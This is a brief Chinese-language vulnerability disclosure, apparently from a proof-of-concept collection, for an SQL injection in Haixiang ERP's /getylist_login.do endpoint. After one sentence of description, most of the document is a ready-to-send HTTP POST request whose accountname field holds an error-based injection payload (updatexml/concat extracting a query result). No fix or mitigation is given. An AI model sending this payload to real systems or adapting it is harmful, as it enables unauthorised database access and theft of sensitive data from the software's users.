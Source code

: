 ## 海翔ERP SQL注入漏洞

海翔ERP存在SQL注入漏洞，由于系统未对用户输入的内容进行过滤，攻击者可以通过/getylist_login.do路由进行SQL注入，从而获取数据库中的敏感信息。


## poc
```
POST /getylist_login.do HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 77
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

accountname=test' and (updatexml(1,concat(0x7e,(select md5(123)),0x7e),1));--
```

